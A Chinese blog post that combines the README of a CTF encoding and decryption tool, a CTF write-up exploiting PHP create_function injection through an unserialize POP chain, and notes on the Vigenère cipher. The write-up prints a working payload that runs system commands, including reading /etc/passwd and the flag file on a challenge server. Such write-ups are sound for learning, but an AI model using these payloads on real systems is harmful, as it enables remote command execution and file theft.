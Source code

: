 # CTF-Tools

![1](https://github.com/qianxiao996/CTF-Tools/blob/master/1.jpg)

一款CTF编码、解码、加密、解密工具。

##### 安装依赖：

- pip install base36
- pip install base58
- pip install base91
- py3base92-master\py3base92_setup>install.bat 到github上找到py3base92下载，执行install.bat
- pip install pybase62
- pip install PyQt5
- pip install pyperclip
- pip install wheel
- pip install F:\download\gmpy2-2.0.8-cp39-cp39-win_amd64.whl(我的python是3.9版本，所以下载的是cp39,https://www.lfd.uci.edu/~gohlke/pythonlibs/ 到这里搜索下载)


##### 支持的编码解码:

- [x] URL-UTF-8            
- [x] URL-GB2312
- [x] Unicode
- [x] Escape(%U)
- [x] HtmlEncode
- [x] ACSII
- [x] Base16
- [x] Base32
- [x] Base64
- [x] Str->Hex
- [x] Shellcode
- [x] qwerty(键盘密码)
- [x] 图片转base64
- [x] 图片转hex

##### 支持的加密解密:

- [x] Rot13
- [x] 凯撒密码
- [x] 栅栏密码
- [x] 栅栏密码(W型)
- [x] 培根密码
- [x] 摩斯密码
- [x] 移位密码
- [x] 云影密码
- [x] 当铺密码
- [x] 维尼吉亚密码
- [x] 埃特巴什码
- [x] base64转图片

##### 进制转换:

- [x] 2->8
- [x] 2->10
- [x] 2->16
- [x] 8->2
- [x] 8->10
- [x] 8->16
- [x] 10->2
- [x] 10->8
- [x] 10->16
- [x] 16->2
- [x] 16->8
- [x] 16->10
- [x] 任意进制转换

##### 在线编码网站:

- [x] Jsfuck
- [x] AAencode
- [x] XXencode
- [x] JJencode
- [x] UUencode
- [x] Brainfuck/Ook!
- [x] 敲击码
- [x] 猪圈密码
- [x] 综合网站
- [x] Rabbit

......

##### 插件功能:

须在Plugins目录下的Plugins.json写入插件名称和文件名。

插件模板

```
def run(source_text):
    #source_text 为前端输入的源文本字符串
    #插件测试模板，返回一个加密解密结果即可
    result='插件测试'
    return result
```



php的神奇函数
create_function；如下代码就能调用系统命令ls /

```php
<?php
echo 'Hello World!';
system('cat /etc/passwd');
create_function('',";}system('cat /etc/passwd');//");
create_function('',";}system('ls /');//")
?>
```


```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$pwd=getcwd();
class func
{
        public $mod1="1";
        public $mod2="2";
         public $key="3";
        public function __destruct()
        {        
                unserialize($this->key)();
                $this->mod2 = "welcome ".$this->mod1;
                  
        } 
}

class GetFlag
{        public $code;
         public $action;
        public function get_flag(){
            $a=$this->action;
            $a('', $this->code);
        }
}


$str = 'O%3A4%3A%22func%22%3A1%3A%7Bs%3A3%3A%22key%22%3Bs%3A121%3A%22a%3A2%3A%7Bi%3A0%3BO%3A7%3A%22GetFlag%22%3A2%3A%7Bs%3A4%3A%22code%22%3Bs%3A19%3A%22%3B%7Dsystem%28%27ls+%2F%27%29%3B%2F%2F%22%3Bs%3A6%3A%22action%22%3Bs%3A15%3A%22create_function%22%3B%7Di%3A1%3Bs%3A8%3A%22get_flag%22%3B%7D%22%3B%7D';
echo urldecode($str);
unserialize(urldecode($str));

?> 

```





首先利用一个creat_function()函数去做这里，`$a('', $this->code);`

要执行到getflag的get_flag方法，就可以这样打pop链：

```php

<?php
class func
{
    public $key;
    public function __construct()
{
        $this->key = serialize([new GetFlag(), "get_flag"]);
    }
}


class GetFlag
{
    public $code;
    public $action;
    public function __construct()
{
        $this->code = ";}system('ls /');//";
        $this->action = "create_function";
    }
}
echo urlencode(serialize(new func()));  
O%3A4%3A%22func%22%3A1%3A%7Bs%3A3%3A%22key%22%3Bs%3A121%3A%22a%3A2%3A%7Bi%3A0%3BO%3A7%3A%22GetFlag%22%3A2%3A%7Bs%3A4%3A%22code%22%3Bs%3A19%3A%22%3B%7Dsystem%28%27ls+%2F%27%29%3B%2F%2F%22%3Bs%3A6%3A%22action%22%3Bs%3A15%3A%22create_function%22%3B%7Di%3A1%3Bs%3A8%3A%22get_flag%22%3B%7D%22%3B%7D

```

成功执行了命令，flag在根目录，cat /flag 就OK了：

最终payload：

http://111.74.9.109:10069/?0=O%3A4%3A%22func%22%3A3%3A%7Bs%3A4%3A%22mod1%22%3BN%3Bs%3A4%3A%22mod2%22%3BN%3Bs%3A3%3A%22key%22%3Bs%3A126%3A%22a%3A2%3A%7Bi%3A0%3BO%3A7%3A%22GetFlag%22%3A2%3A%7Bs%3A4%3A%22code%22%3Bs%3A24%3A%22%3B%7Dsystem%28%27cat+%2Fflag%27%29%3B%2F%2F%22%3Bs%3A6%3A%22action%22%3Bs%3A15%3A%22create_function%22%3B%7Di%3A1%3Bs%3A8%3A%22get_flag%22%3B%7D%22%3B%7D

图片



维吉尼亚密码
维吉尼亚密码（又译维热纳尔密码）是使用一系列凯撒密码组成密码字母表的加密算法，属于多表密码的一种简单形式。

ctf解题中，发现具有flag的形式(大括号什么的)，但又不能通过凯撒或栅栏去恢复的时候，可以尝试维吉尼亚解密。

已知密文和key，可使用该网站工具解密: http://www.atoolbox.net/Tool.php?Id=856
密文较长，且未知key，可使用该网站工具尝试爆破: https://www.guballa.de/vigenere-solver

2021/8/20
————————————————
版权声明：本文为CSDN博主「xuqi7」的原创文章，遵循CC 4.0 BY-SA版权协议，转载请附上原文出处链接及本声明。
原文链接：https://blog.csdn.net/xuqi7/article/details/119850322
